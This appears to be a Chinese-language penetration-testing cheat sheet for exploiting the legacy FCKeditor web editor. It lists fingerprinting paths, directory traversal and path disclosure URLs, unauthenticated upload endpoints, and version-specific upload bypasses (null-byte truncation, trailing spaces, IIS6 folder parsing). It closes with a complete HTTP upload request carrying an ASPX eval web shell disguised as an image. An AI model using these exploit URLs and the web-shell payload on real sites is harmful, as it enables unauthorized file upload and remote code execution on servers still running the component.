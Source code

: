 # FCKeditor 编辑器漏洞利用

>n年前的总结，如果发现fckeditor这种老古董组件可以使用

## 0x01 查看编辑器版本
	* /fckeditor/editor/dialog/fck_about.html
	* /ckeditor/CHANGES.html


## 0x02 编辑器参数

- connecter参数是针对/FCKeditor/editor/filemanager/browser/default/connectors/目录下aspx、php、py...各环境脚本连接文件。(此目录下为关键文件)
- type参数上传类型file、image... 
- Command参数执行相应命令GetFoldersAndFiles...


## 0x03 默认上传文件保存路径

/UserFiles/File(Image...)
## 0x04 爆绝对路径漏洞

- `/FCKeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php`  (支持php的通杀)
- `/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/aspx/connector.aspx`  (2.5可突破)
- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/shell.asp`


## 0x05遍历目录漏洞

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=../../`
- Version 2.4.1 测试通过 修改CurrentFolder 参数使用 ../../来进入不同的目录：`/browser/default/connectors/aspx/connector.aspx？Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp`

根据返回的XML 信息可以查看网站所有的目录，上传地址URL。

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/`

- `/FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=/`


## 0x06 上传URI
### (1)test文件的上传地址 
- `FCKeditor/editor/filemanager/browser/default/connectors/test.html`
- `FCKeditor/editor/filemanager/upload/test.html`
- `FCKeditor/editor/filemanager/connectors/test.html`
- `FCKeditor/editor/filemanager/connectors/uploadtest.html`


### (2)brower文件上传地址

- `/FCKeditor/editor/filemanager/browser/default/browser.html?Type=File&Connector=../../connectors/asp/connector.asp`
- `/FCKeditor/editor/filemanager/browser/default/browser.html?Connector=connectors/asp/connector.asp`


## 0x07.突破方式+各版本漏洞
### (1)建立文件夹方法
     (a)利用IIS6.0解析漏洞建立*.asp文件夹，上传图片马或者上传畸形文件
     (b)fckeditor <= 2.6.4 For php 任意文件上传漏洞（iis判定路径有问题，返回500）
     `/fckeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=%2Ftest.php%00.gif` 上传gif图片马即可
### (2)后台无验证
     (a)fckeditor 2.x < =2.4.2 For php 在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，可上传任意文件。

     将以下保存为html文件，修改action地址。
    ```
<form id="frmUpload" enctype="multipart/form-data"action="http://www.site.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">
    Upload a new file:<br>
    <input type="file" name="NewFile"size="50"/><br>
    <input id="btnUpload" type="submit" value="Upload"/>
</form>
```
     (b)fckeditor <= 2.2 允许上传asa、cer、php2、php4、inc、pwml、pht
### (3) 空格绕过

     fckeditor<=2.4.1 提交shell.aspx+空格 绕过 【Windows测试成功】(2.4.1 success)
### (4)二次上传
     fckeditor <= 2.6.8 for asp   运用%00截断，首先上传文件名为shell.asp%00txt，结果为shell.asp_txt，再次上传同名文件，结果为shell(1).asp，成功绕过。

### (5)截断上传
               fckeditor <= 2.2.  文件名后截断  shell.asp%00.jpg 直接shell.asp上传成功     
HTTP Request Eg. 
```
POST /FCKeditor/editor/filemanager/upload/aspx/upload.aspx?Type=Image HTTP/1.1
Host: www.**.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://**m/FCKeditor/editor/dialog/fck_image.html?ImageButton
Cookie: ASP.NET_SessionId=kh5lee5aubjpdnpezzhkf4tl; WebPlugValidateCode=7020
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------61051038624293
Content-Length: 264

-----------------------------61051038624293
Content-Disposition: form-data; name="NewFile"; filename="a11.jpg"
Content-Type: image/jpeg

gif89a
<%@ Page Language="Jscript"%><%eval(Request.Item["str"],"unsafe");%>
-----------------------------61051038624293--
```
